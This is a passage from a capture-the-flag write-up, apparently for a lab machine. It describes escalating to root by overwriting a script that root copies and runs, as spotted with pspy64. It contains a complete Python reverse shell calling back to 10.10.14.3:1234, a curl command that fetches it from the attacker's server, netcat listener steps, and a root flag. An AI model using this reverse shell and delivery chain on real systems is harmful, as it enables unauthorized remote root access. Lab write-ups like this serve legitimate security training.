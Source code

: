 Using *pspy64*, we can see that *script.py* is run by root:

```txt
2022/05/03 19:00:01 CMD: UID=0    PID=26465  | cp /root/script.py /home/sun/Documents/script.py
```

We can edit */home/sun/Documents/script.py*

Create a python reverse shell file named *rev.py* on your attacker machine:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.3",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/sh")
```

Spin up an http server on your attacker machine:

```bash
python3 -m http.server 8000
```

Copy the reverse shell into */home/sun/Documents/script.py* by running the following command on the target machine:

```bash
curl -o /home/sun/Documents/script.py http://10.10.14.3:8000/rev.py
```

Start a netcat listener on your attacker machine:

```bash
nc -lvnp 1234
```

We can see that the python file has been run:

![[process_is_run.png]]

We get a shell:

![[pop_root_shell.png]]

root.txt
```txt
ba1d0019200a54e370ca151007a8095a
```